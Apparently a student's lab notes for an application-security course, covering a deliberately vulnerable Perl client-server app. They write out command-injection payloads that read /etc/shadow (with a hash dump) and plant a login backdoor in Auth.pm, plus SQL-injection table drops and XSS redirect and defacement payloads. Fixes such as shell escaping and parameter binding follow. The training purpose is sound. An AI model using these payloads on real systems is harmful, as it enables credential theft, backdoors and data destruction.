



[<- back to start](linkk)

# M183

## start Server

```pearl
fulla
```

## Get Server Ready

### vmLP1
### Änderungen im Server-Code auf den Server verteilen und Server direkt starten
```bash
cd code/server
```

```bash
bash deploy.sh
```
### Server auf Entwickler-PC direkt ab Source starten

```bash
cd code/server
```

```perl
perl -Ilib bin/fulla
```

### vmLS3
### turn on live logs

```bash
tail -f fulla.*
```

### start the server in root

```bash
sudo -s fulla
```

## Get Client Ready

```bash
ziu --help 
ziu login # use admin anna 
FULLAIP=192.168.220.13 ziu list 
export FULLAIP=192.168.220.13 
cd /code/client; bash deploy.sh 
cd /code/client; perl ziu list
```

if this error occurs


Login again and it should work


## 2.2 Angriffe Ausführen

### 2.2.1

### Aufgabe 6

create the readme.txt

```perl
ziu 'list -l; echo "Bei telefonischen Anfragen von Herr W. Beinhart: Dem Anrufer bitte Root-Passwort mitteilen!" > /tmp/readme.txt'
```

check if it worked

```perl
ziu "list -l; cat /tmp/readme.txt"
```

should display the contents of the file

if it doesn't it either didn't work or is bugged

check on the server (optional & if possible)

```bash
cat /tmp/readme.txt"
```
#### Aufgabe 7

get passwort hashes
```
ziu "list -l; cat /etc/shadow"
```

pw hashes result

```powershell
root:$y$j9T$nS/i7F9QsxP6xp/.cpizu/$6EkkwPJxehs6zwUfwxSEfkjtTd4VASC5imokYUE65YA:19592:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-t

```
### 2.2.2

### Aufgabe 8

option 1

```bash
ziu "list; sudo sed -i '50 c if (\$user_id || \$user == \"Hacker\") {' /usr/share/perl5/Fulla/Auth.pm"
```

option 2

```bash
ziu 'list -l; searchText="if (\$user_id) {"; replaceText="if (\$user_id || \$user eq \"hacker\") {"; sed -i "s/$(echo $searchText)/$(echo $replaceText)/"/usr/share/perl5/Fulla/Auth.pm'
```

restart server

```perl
sudo pkill -F pid.fulla
```

Login with hacker

```perl
ziu login
```


## 3 Kommando-Injektion (fix)

### 3.1 Applikatoiinsbenutzer verwenden

#### Aufgabe 1

```bash
patch deploy.sh patches/deploy_as_app-user.patch
```

### 3.2 Auswertung Angriffsübung

### 3.4 Esterne Daten prüfen

#### 3.4.1 Eingagben "Escapen

Installation einer Library welche Shell-Escaping anbietet

```bash
sudo apt install libstring-shellquote-perl
```

```bash
echo \'; # '

echo ';' # ;
```

### 3.5 Praxis

## 4 Interpreter Injektion

### 4.1

### 4.2 SQL-Injection durchführen

Trockenübungen & Pseudo code

#### 4.2 Aufgabe 5

```sql
'Drop Table building; #
```

#### 4.2 Aufgabe 6

```sql
'truncate table users; #
```

## 5 SQL-Injection (Fix)

### 5.2 Parameter binding explained

Preparing the Query: The prepare method is used to prepare a SQL query. In this case, two SQL placeholders (?) are used to represent values that will be bound later. These placeholders are often used to prevent SQL injection by separating the SQL statement from the data.

```perl
my $stm = $dbh->prepare('select * from table where name = ? and city = ?');
```

Binding Parameters: The **bind_param** method is used to bind values to the placeholders in the prepared statement. It associates the placeholders with the actual values you want to use in the query. In this code, the values of **$name** and **$city** are bound to placeholders **1** and **2**, respectively.

```perl
$stm->bind_param(1, $name);  # Binds $name to the first placeholder
$stm->bind_param(2, $city);  # Binds $city to the second placeholder
```

Executing the Query: After binding the parameters, you can execute the query using the execute method. In this code, the values of **$name** and **$city** are used in the query, and the query is executed.

```perl
$stm->execute($name, $city);  # Executes the query with the bound values
```

Alterntive: Named Binds: The code also shows an alternative method using named binds, which can make the code more readable. However, it mentions that this feature is currently not supported, likely due to the use of named placeholders that are not part of standard DBI syntax.

```perl
my $stm = $dbh->prepare('select * from table where name = :name and city = :city');
$stm->bind_param(':city', $city);
$stm->bind_param(':name', $name);
$stm->execute();
```

Please note that in the alternative method with named binds, the specific usage may depend on the database driver you are using with DBI. Some databases may support named placeholders, while others may not. The code should be adjusted based on the capabilities of your specific database driver.

# 6 HTML-Injektion

## 6.1 Annäherung Problem

### 6.1 Aufgabe 1

```html
192.168.220.13:7777
```

### 6.1 Aufgabe 2

```bash
ziu neuerartikel RTX 4090 8 1292
```

### 6.1 Aufgabe 3

#### hilft der schutz gegen SQL-Injektion?

Ja wegen parameter binding


#### Hilft der Schutz gegen Injektion von HTML oder JS? Warum?

Nein, da bei den Prepared Statements nur SQL Code vorgebeugt wird und andere Sonderzeichen erlaubt sind

## 6.2 Injektion Durchführen

### 6.2 Aufgabe 4

```perl
ziu neuerartikel "<a href="https://gibb.ch">gibb</a>" 1 1
```

### 6.2 Aufgabe 5

```perl
ziu neuerartikel "<script>alert('Hello World')</script>" 1 1
```

### 6.2 Aufgabe 6

```perl
ziu neuerartikel "window.onload = () => window.location.href='https://gibb.ch';</script>" 1 1
```

### 6.2 Aufgabe 8

```perl
ziu neuerartikel "<div style='height: 100%; width: 100%; background-color: cyan; color: pink; position: absolute; top: 0; left: 0;'>
LOL you took a big hacked L
</div>" 1 1

```

## 6.3 Lücke schliessen

add import



add encode_Entities



# 7.3 gemischte verfahren

